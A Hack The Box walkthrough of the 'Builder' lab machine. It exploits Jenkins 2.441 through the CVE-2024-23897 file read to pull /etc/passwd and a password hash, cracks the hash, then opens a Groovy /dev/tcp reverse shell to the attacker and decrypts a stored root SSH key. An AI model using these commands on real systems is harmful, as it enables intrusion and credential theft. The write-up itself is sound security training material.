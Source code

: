 # HTB - Builder

#### Ip: 10.129.230.220
#### Name: Builder
#### Rating: Medium

----------------------------------------------------------------------

![Builder.png](../assets/builder_assets/Builder.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 10.129.230.220 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-05 07:24 CDT
Nmap scan report for 10.129.230.220
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Looking at the Jetty site on port 8080 we find a Jenkins 2.441 instance running:

![htb_builder_site.png](../assets/builder_assets/htb_builder_site.png)

Navigating to http://10.129.230.220:8080/asynchPeople/ we also find user Jennifer (as well as our anonymous session):

![htb_builder_people.png](../assets/builder_assets/htb_builder_people.png)

Clicking into the Credentials tab we see that user root may have SSH enabled:

![htb_builder_credentials.png](../assets/builder_assets/htb_builder_credentials.png)

Looking for Jenkins exploits I find `CVE-2024-23897(Arbitrary File Read Vulnerability) Jenkins 2.441 and earlier`

Reading up on how to exploit this first we'll need to grab the jenkins-cli.jar file:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ wget http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar

--2024-08-05 07:37:36--  http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.129.230.220:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                 100%[====================================================>]   3.46M  4.30MB/s    in 0.8s    

2024-08-05 07:37:36 (4.30 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

We can then execute:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/etc/passwd'
```

Which gives us the contents of `/etc/passwd`:

![htb_builder_passwd.png](../assets/builder_assets/htb_builder_passwd.png)

### Foothold

Lets find the Jenkins home path by viewing `/proc/self/environ`

![htb_builder_home.png](../assets/builder_assets/htb_builder_home.png)

We can now confirm that user jennifer exists by viewing `/var/jenkins_home/users/users.xml`

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/users.xml'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>"
<SNIP>
```

Now that we have jennifer's username string `jennifer_12108429903186576833` We can query:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```

Which gives us a bcyrpt hash:

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

Lets crack this in john:

![htb_builder_john.png](../assets/builder_assets/htb_builder_john.png)

We can now login as jennifer:

![htb_builder_in.png](../assets/builder_assets/htb_builder_in.png)

We can now navigate to the `/script` directory and issue a reverse shell using Groovy:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.107/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![htb_builder_script.png](../assets/builder_assets/htb_builder_script.png)

We then catch a shell back as jenkins:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ nc -lnvp 443             
listening on [any] 443 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.230.220] 55854
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
hostname
0f52c222a4cc
python3 -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python3: command not found
python -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python: command not found
/usr/bin/script -qc /bin/bash /dev/null
jenkins@0f52c222a4cc:/$
```

Because the hostname is 0f52c222a4cc, we can likely assume we are inside of a docker container.

We can now grab the user.txt flag in `/var/jenkins_home`

![htb_builder_user.png](../assets/builder_assets/htb_builder_user.png)

### Privilege Escalation

Looking at `/var/jenkins_home/credentials.xml` we find an encrypted key:

![htb_builder_enc_key.png](../assets/builder_assets/htb_builder_enc_key.png)

And it appears to be the SSH key for root:

```
<scope>GLOBAL</scope>
<id>1</id>
<description></description>
<username>root</username>
<usernameSecret>false</usernameSecret>
```

We can decrypt this back in the Groovy Console with:

```
println(hudson.util.Secret.decrypt("{AQAAAB.....<SNIP>}"))
```

![htb_builder_groovy2.png](../assets/builder_assets/htb_builder_groovy2.png)

We can then use this key to SSH in as root:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ ssh -i id_rsa root@10.129.230.220   
The authenticity of host '10.129.230.220 (10.129.230.220)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:161: [hashed name]
    ~/.ssh/known_hosts:164: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.230.220' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

<SNIP>

Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# whoami
root
root@builder:~# hostname
builder
```

We can now grab the root.txt flag:

![htb_builder_root_flag.png](../assets/builder_assets/htb_builder_root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------
